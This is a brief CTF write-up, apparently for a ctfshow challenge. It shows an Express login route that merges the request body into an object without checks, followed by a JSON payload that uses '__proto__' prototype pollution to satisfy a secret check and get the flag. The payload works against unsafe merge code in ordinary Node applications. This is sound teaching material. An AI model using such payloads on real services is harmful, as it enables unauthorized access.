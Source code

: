tags:: CTF/JS/原型链污染

- [源码](https://ctfshow.lanzoui.com/iAV6Xjs9bzc)
- /login
	- ```js
	  /* GET home page.  */
	  router.post('/', require('body-parser').json(),function(req, res, next) {
	    res.type('html');
	    var flag='flag_here';
	    var secert = {};
	    var sess = req.session;
	    let user = {};
	    utils.copy(user,req.body);
	    if(secert.ctfshow==='36dboy'){
	      res.end(flag);
	    }else{
	      return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
	    }
	    
	    
	  });
	  ```
- payload
	- ```json
	  {"username":"asdf","password":"asdf",
	  "__proto__":  {
	  "ctfshow": "36dboy"
	  }
	  }
	  ```